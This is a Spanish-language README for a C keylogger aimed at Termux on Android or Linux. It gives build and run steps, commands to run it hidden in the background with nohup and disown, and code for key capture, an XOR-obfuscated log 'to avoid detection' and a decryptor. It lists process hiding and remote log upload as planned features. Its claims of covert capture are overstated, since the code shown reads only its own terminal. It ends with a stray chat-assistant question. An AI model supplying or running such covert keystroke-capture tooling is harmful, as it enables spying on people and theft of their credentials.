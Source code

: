 
🔐 Keylogger en C para Termux

Captura de teclas con cifrado XOR y ejecución en segundo plano

Este proyecto es un keylogger básico en C diseñado para ejecutarse en Termux (Android/Linux). Captura pulsaciones de teclas en tiempo real y las almacena en un archivo cifrado con XOR para evitar detección fácil. Además, puede ejecutarse en segundo plano sin interferir con otras aplicaciones.


---

📌 Características

✅ Captura teclas sin necesidad de presionar Enter.

✅ Guarda las teclas en un archivo de log (log.txt).

✅ Cifra los datos usando XOR (0xAA) para evitar lectura directa.

✅ Corre en segundo plano usando nohup y disown.

✅ Descifrado de datos con un programa en C.

✅ Filtra caracteres no imprimibles para evitar datos corruptos.


---

📁 Estructura del Proyecto

📂 Keylogger
 ├── keylogger.c   # Captura y cifra teclas
 ├── decrypt.c     # Descifra el archivo log.txt
 ├── README.md     # Documentación del proyecto
 └── log.txt       # Archivo donde se guardan las teclas capturadas


---

🔧 Instalación y Uso

1️⃣ Clonar el repositorio

git clone https://github.com/tu-usuario/keylogger_tool.git
cd keylogger_tool

2️⃣ Compilar el keylogger

clang keylogger.c -o keylogger

3️⃣ Ejecutar el keylogger

./keylogger

🔹 Para ejecutarlo en segundo plano:

nohup ./keylogger > /dev/null 2>&1 &
disown

🔹 Para detenerlo:

pkill keylogger

4️⃣ Ver el contenido del log (cifrado)

cat log.txt

5️⃣ Descifrar el log

clang decrypt.c -o decrypt
./decrypt


---

📜 Explicación del Código

🔹 1️⃣ Captura de teclas (get_key())

char get_key() {
    struct termios oldt, newt;
    char ch;
    tcgetattr(STDIN_FILENO, &oldt);
    newt = oldt;
    newt.c_lflag &= ~(ICANON | ECHO);
    tcsetattr(STDIN_FILENO, TCSANOW, &newt);
    ch = getchar();
    tcsetattr(STDIN_FILENO, TCSANOW, &oldt);
    return ch;
}

📌 Lógica:

1. Modifica la terminal para desactivar el buffer de línea y eco de caracteres.


2. Captura una tecla en tiempo real.


3. Restaura la configuración original de la terminal.




---

🔹 2️⃣ Escritura segura en el archivo (log.txt)

if (isprint(key)) {
    fputc(key ^ XOR_KEY, file);
    fflush(file);
}

📌 Lógica:

1. Filtra caracteres imprimibles para evitar datos corruptos.


2. Cifra cada tecla con XOR (^ 0xAA) antes de escribirla en log.txt.


3. fflush(file); asegura que los datos se guarden inmediatamente.




---

🔹 3️⃣ Manejo de señales (CTRL+C)

void handle_exit(int sig) {
    if (file) fclose(file);
    printf("\n[+] Keylogger detenido. Datos guardados en %s\n", LOG_FILE);
    exit(0);
}

📌 Lógica:

1. Intercepta CTRL+C para evitar que se cierre inesperadamente.


2. Cierra correctamente el archivo log.txt antes de salir.




---

🔹 4️⃣ Descifrado de datos (decrypt.c)

int ch;
while ((ch = fgetc(file)) != EOF) {
    putchar(ch ^ XOR_KEY); // XOR inverso
}

📌 Lógica:

1. Lee cada carácter del archivo log.txt.


2. Aplica XOR inverso (^ 0xAA) para recuperar las teclas originales.


3. Muestra el resultado en pantalla.




---

💻 Aplicaciones en Ciberseguridad

🔹 1️⃣ Seguridad Ofensiva (Pentesting)

Se usa para testear seguridad en sistemas Linux.

Puede demostrar fallos en la protección de terminales.

Puede probar la efectividad de antivirus y herramientas de detección.


🔹 2️⃣ Seguridad Defensiva

Ayuda a detectar comportamiento sospechoso en procesos.

Puede ser usado para analizar técnicas de malware y crear contramedidas.

Demuestra la importancia de proteger stdin en Linux.


🔹 3️⃣ Educación y Entrenamiento

Permite entender cómo funciona la captura de eventos de teclado en Linux.

Introduce el concepto de cifrado XOR en aplicaciones de seguridad.

Enseña cómo ocultar procesos en sistemas basados en Unix.



---

⚠️ Advertencia Legal

Este keylogger fue desarrollado con fines educativos y de auditoría en ciberseguridad.
El uso de este software en sistemas sin permiso es ilegal y puede tener consecuencias penales.

Úsalo bajo tu propia responsabilidad y solo en entornos controlados.


---

📢 Contribuciones

Si tienes ideas para mejorar este proyecto, ¡haz un pull request o abre un issue en GitHub!

🚀 Contacto: [Tu email o GitHub]


---

🎯 Mejoras Futuras

🔹 Enviar logs cifrados a un servidor remoto.
🔹 Mejor manejo de procesos y ocultación.
🔹 Soporte para capturar teclas especiales (Shift, Enter).


---

📌 Conclusión

Este proyecto muestra cómo funciona un keylogger en C, su aplicación en seguridad ofensiva y defensiva, y la importancia de proteger sistemas contra este tipo de ataques.

Si quieres aprender más sobre seguridad en Linux y programación en C, este es un excelente punto de partida. 🚀


---

📢 ¿Quieres agregar algo más al README?

 